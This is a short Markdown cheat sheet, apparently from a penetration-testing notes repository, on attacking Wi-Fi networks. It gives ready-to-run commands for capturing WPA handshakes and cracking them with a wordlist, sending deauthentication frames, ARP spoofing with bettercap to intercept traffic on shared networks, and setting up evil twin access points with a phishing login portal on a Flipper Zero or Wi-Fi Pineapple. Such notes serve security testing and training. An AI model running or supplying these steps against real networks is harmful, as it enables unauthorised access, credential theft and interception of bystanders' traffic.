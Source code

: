 # Wi-FI 


## Tools
- aircrack-ng suite
- bettercap
- Flipper 0
- WIFI Pineapple
- cewl
- pipal
## Password cracking

- Turn wireless cards into monitor mode
```bash
sudo airmon-ng start wlan0
```
- Check process which can cause trouble
```bash
sudo airmon-ng check kill
```
- Start monitoring SSID from all bands (2.4GHz and 5GHz)
```bash
sudo airodump-ng wlan0 -abg
```
- Listen to the traffic to recover a four way handshake
```bash
sudo airodump-ng --bssid MAC_ADDRESS_OF_THE_ROUTER wlan0
```

- Crack the password with wordlist
**Note that custom wordlists can be generated**
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt hash.txt 
```


**Can also be done with a Flipper 0 and esp32 extension or a WIFI pineapple**
## De-authentication attack

```bash
sudo aireplay-ng -0 1 -a MAC_ADDRESS_OF_THE_ROUTER wlan0
```

## Man In The Middle
### Free WI-FI
**Requirements :**
 - Connection to the WI-FI network

- Launch the tool
```bash
# sudo bettercap -iface INTERFACE_NAME
sudo bettercap -iface eth0
```

- Activate net probing
```bettercap
net.probe on
```
- List connections
```bettercap
net.show
```
- Enable ARP spoofing
```bettercap
set arp.spoof.fulduplex true
set arp.spoof.targets IP_TO_SPOOF
```

**Open your best wireshark interface and be happy**

## Evil Twin
- By defaults, if two networks have the same SSID, devices will connect to the strongest and fastest

| Tool | Pros | Cons |
| ---- | ---- | ---- |
| Flipper 0 | I have one but it needs the esp32 extension | Can not connect to a real network so targets will quickly go back to another network |
| WI-FI Pineapple enterprise | Impersonate a network in one click. It also as a web interface. DNS spoofing. Impersonate every SSID it sees. |  |
##### Flipper 0
- `WiFI marauder module` 
- `Evil portal module`:  prompt a login page (google, facebook, ...)